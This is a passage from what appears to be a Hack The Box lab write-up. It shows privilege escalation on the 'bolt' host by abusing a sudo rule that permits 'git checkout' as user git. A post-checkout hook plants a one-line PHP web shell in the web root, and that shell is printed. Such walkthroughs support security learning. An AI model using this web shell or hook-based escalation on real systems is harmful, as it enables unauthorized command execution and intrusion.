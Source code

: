 ## Enumeration as user bolt

The `backup.php` file I found earlier executes a backup application with sudo:

```
bolt@bolt:/var/www/html$ cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

Unfortunately my current `bolt` doesn't have rights to sudo that specific command but I have the following:

```
bolt@bolt:/var/www/html$ sudo -l
Matching Defaults entries for bolt on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bolt may run the following commands on bolt:
    (git) NOPASSWD: /usr/bin/git checkout *
```

## Escalating to www-data using the git post-checkout hooks

Since I can execute git checkout as user `git` I can exploit the post-checkout hooks to get RCE. I'll just create a webshell so I can run commands as `www-data`:

```
bolt@bolt:/var/tmp$ cd /var/tmp
bolt@bolt:/var/tmp$ mkdir a
bolt@bolt:/var/tmp$ cd a
bolt@bolt:/var/tmp/a$ git init
Initialized empty Git repository in /var/tmp/a/.git/
bolt@bolt:/var/tmp/a$ touch blabla
bolt@bolt:/var/tmp/a$ git add blabla
bolt@bolt:/var/tmp/a$ git commit -m 'yo'

*** Please tell me who you are.

Run

  git config --global user.email "you@example.com"
  git config --global user.name "Your Name"

to set your account's default identity.
Omit --global to set the identity only in this repository.

fatal: empty ident name (for <bolt@bolt>) not allowed
bolt@bolt:/var/tmp/a$ vi .git/hooks/post-checkout
bolt@bolt:/var/tmp/a$ chmod 755 .git/hooks/post-checkout
bolt@bolt:/var/tmp/a$ chmod -R 777 *
bolt@bolt:/var/tmp/a$ chmod -R 777 .git/
bolt@bolt:/var/tmp/a$ sudo -u git /usr/bin/git checkout * 
error: unable to unlink old 'blabla': Permission denied
bolt@bolt:/var/tmp/a$ ls -l /var/www/html/snow.php
-rw-r--r-- 1 git www-data 29 Oct 20 23:43 /var/www/html/snow.php

bolt@bolt:/var/tmp/a$ cat /var/www/html/snow.php 
<?php system($_GET["c"]) ?>;
```
